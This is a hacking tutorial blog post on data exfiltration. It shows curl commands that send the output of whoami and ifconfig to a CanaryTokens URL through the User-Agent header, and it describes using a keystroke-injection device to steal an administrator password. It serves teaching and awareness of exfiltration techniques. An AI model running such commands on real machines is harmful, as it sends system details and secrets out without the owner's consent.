







<hr>

### Overview
If you're just getting started with data exfiltration, it might not be practical to set up an entire webserver or local environment just to try out some simple techniques, like web request exfiltration.

[In my Hak5 episode](), I created a simple proof-of-concept using an online tool called [CanaryTokens](), to demonstrate how simple it is to remotely exfiltrate a Linux password using a single command. 

Using a keystroke injection tool called the [USB Nugget](), I created a payload that demonstrates this sneaky attack in seconds - but if you dont have one, you can still practice the exfiltration techniques with your web browser.

### What You'll Need
- A computer (Linux preferable)
- [USB Nugget](https://usbnugget.com), or other DuckyScript device

<div>
<iframe width="560" height="315" src="https://www.youtube.com/embed/T3szLSA83AU" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</div>
<hr>

### What is Data Exfiltration?
Data exfiltration happens when a hacker needs to sneak sensitive data out of a compromised computer or network.  This can often be difficult to detect, since there's a variety of tricky obfuscation methods an attacker can use to disguise sensitive information as something less conspicuous.

### Hiding Data in Plain Sight: Web Traffic
One common method of data exfiltration involves hiding data inside of HTTP web traffic.  Since most network policies allow its users to browse the web, and since HTTP traffic (i.e. web requests) can usually comprise the majority of traffic on a network, it's hard to identify a single malicious source that's being used to exfiltrate data. 

In addition, data obfuscation methods like [steganography]() can make it even harder to identify if sensitive information is being stolen in plain sight, especially if used in conjunction with encryption.

<hr>

### Catching Hackers with CanaryTokens
[CanaryTokens]() is an awesome honeypot service developed by [Thinkst Canary]() that makes it easy to create bugged urls, documents, images, and more!  

Typically, these honeypots can be used to determine if a hacker is snooping through your system, by leaving a juicy looking target somewhere that's easy for them to find. Since most hackers aren't manually scanning through your filesystem for credentials and secrets, they'll often use a program to enumerate (and subsequently exfiltrate) specific file types like images or documents with keywords like *password* or *cryptocurrency*, for example.

Thanks to CanaryTokens it's pretty easy to detect this activity, since you'll recieve an email if the hacker opens one of these bugged files!





### Weaponizing CanaryTokens
One of my favorite unintended uses of CanaryTokens involves using the Incident Dashboard as a crude method of data exfiltration.

If you create a basic `web bug / URL token` as shown above, this dashboard lets you profile basic information about the system that clicks on your token, and even shows you the rough whereabouts using their Internet Service Provider.

Your unique link should look something like this:



The dashboard is super handy for determining every time there's a new "hit" on your CanaryToken - but can also be a great visual tool for trying out data exfiltration through web requests.



<hr>

### User Agent Strings
One key piece of information that's revealed about the "victim" through this dashboard is a metadata field called the `User-Agent String`, which reveals information about their machine such as the:
- Operating System
- Browser type & version
- Windowing system  

When browsing the web, this string is sent as a header in HTTP packets so websites can identify what kind of device you're using.  This is makes it easy to render content for mobile devices, or serve downloads catered towards your operating system.



### Custom User-Agents
Since there's no strict format for UA Strings, this means we can set it to arbitrary text - and use this parameter as a crude method of plain-text data exfiltration!  

We'll be trying this out by creating web-requests with a simple command-line tool called `curl`.  You should be able to use it on Linux, Mac, or the latest version of Windows.

Try running the following command to make a request to your CanaryToken!
```
curl https://canarytokens.org/yourtokenhere
```



Using the `-a` (agent) parameter, you can try sending the request with an arbitrary User Agent like `meow123456789`.

```
curl https://canarytokens.org/yourtokenhere -a "meow123456789"
```


### Crude Data Exfiltration

As you can see, manipulating the user-agent string is fairly simple - so now let's try exfiltrating sensitive system information!

To do this, you can pass the output of another command to the User-Agent String by escaping it with `$(<command>)` on Linux / Mac or `%command%` on Windows.  For example, the following command sets the output of `whoami` as the user agent.

```
curl https://canarytokens.org/yourtokenhere -a "$(whoami)"
```
If you want to try something a little fancier, you can create a command like `ifconfig | tr -d "\n"` which formats network information from the `ifconfig` command on a single line  By running the following request, you can see the output on the CanaryTokens dashboard below!

```
curl https://canarytokens.org/yourtokenhere -a "$(ifconfig | tr -d '\n')"
```


In my video, I used this in order to exfiltrate the contents of a text file containing an administrator password - but you can get creative and try passing the output of other commands.

### Conclusion & Diving Deeper
While this demo makes it easy to visualize how web requests can pass sensitive information through spoofed parameters, it's pretty clear that this technique has limitations, and isn't the most practical in an actual data exfiltration scenario.

However, hackers *do* actually spoof user-agent fields when exfiltrating data - in order to masquerade exfiltration processes as normal web traffic, or sometimes even as a custom flag that can trigger actions from a C2 server.

In future tutorials, we'll explore some of these use-cases, and also advanced techniques like DNS exfiltration with CanaryTokens.